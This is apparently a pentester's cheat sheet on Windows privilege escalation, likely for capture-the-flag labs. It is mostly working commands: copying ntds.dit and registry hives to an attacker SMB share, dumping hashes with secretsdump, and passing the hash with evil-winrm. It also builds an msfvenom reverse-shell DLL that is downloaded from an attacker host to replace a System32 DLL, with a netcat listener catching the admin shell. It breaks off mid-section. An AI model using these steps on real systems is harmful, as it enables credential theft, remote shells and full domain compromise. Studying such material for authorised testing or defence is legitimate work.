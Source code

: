 ```
`Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.172\s\ntds.dit` on remote machine, copy ntds.dit to kali via smb server
`reg.exe save HKLM\SYSTEM C:\system.hiv` on remote machine, copy SYSTEM reg key to C: drive
`Copy-Item C:\system.hiv \\10.10.14.172\s\system` on remote machine, copy from C drive to kali
`secretsdump.py -system system -ntds ntds.dit LOCAL` on kali, to dump hashes from ntds and system file

***SeBackUpPrivilege alternate path*** (if ntds or system and sam wont copy):
- `cd c:\`
- `mkdir Temp`
- `cd \Temp`
- `reg save hklm\sam c:\Temp\sam`
- `reg save hklm\system c:\Temp\system`
- `download sam`
- `download system`
create script.txt on kali:
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
- `upload script.txt` to C:\Temp
```
diskshadow /s script.txt
```

```
robocopy /b E:\Windows\ntds . ntds.dit
```
- `download ntds.dit`
```
secretsdump.py -sam sam -system system -ntds ntds.dit LOCAL
```
- get admin hash (2nd part after :)
```
evil-winrm -i 10.129.139.85 -u administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
```
- PTH

***SeManageVolumePrivilege***
- SeManageVolumeExploit.exe from [https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9)
	- upload to target and run
	- allows for dll hijacking by writing to C drive
		- also allows for icacls on privileged folders like windows\system32
	- `systeminfo` command uses tzres.dll so create malicious payload
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.205 LPORT=135 -f dll -o tzres.dll`
	- upload to machine, overwriting actual DLL
		- `iwr http://192.168.45.205/tzres.dll -o c:\Windows\System32\wbem\tzres.dll`
	- start listener 
		- `rlwrap -cAr nc -lnvp 135`
	- run `systeminfo` command
		- will output error, but will also get an admin shell at listener

***SeRestorePrivilege***
- need to alter a manual start service into a malicious one. `seclogon` is good target because doesn't require admin permissions 
```